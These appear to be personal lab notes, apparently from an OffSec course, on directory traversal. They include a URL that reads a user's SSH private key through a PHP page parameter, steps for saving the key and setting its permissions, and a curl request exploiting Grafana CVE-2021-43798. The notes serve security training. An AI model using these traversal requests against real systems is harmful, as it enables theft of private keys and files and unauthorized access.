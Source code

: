 you can use as many ../../ as possible because it can go as back as the food folders but no more

Notice that the page has a index.php
![[Pasted image 20230927201339.png]]

Notice that the admin link has a admin.php
![[Pasted image 20230927201458.png]]
Using Dir xversal we can see
![[Pasted image 20230927201746.png]]
![[Pasted image 20230927201808.png]]

http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../../home/offsec/.ssh/id_rsa

you can use curl to get the key in a better format

once you get the key, save it in a txt using the mousepad command (user friendly)

once done, change the permissions of the file with the key!

chmod 400 "file"

make sure you copy the whole key (including the start/end sentence)
![[Pasted image 20230927202840.png]]


Using Grafana for CVE 2021-43798
https://github.com/taythebot/CVE-2021-43798
curl --path-as-is http://192.168.249.193:3000/public/plugins/alertlist/../../../../../../../../../Users/install.txt


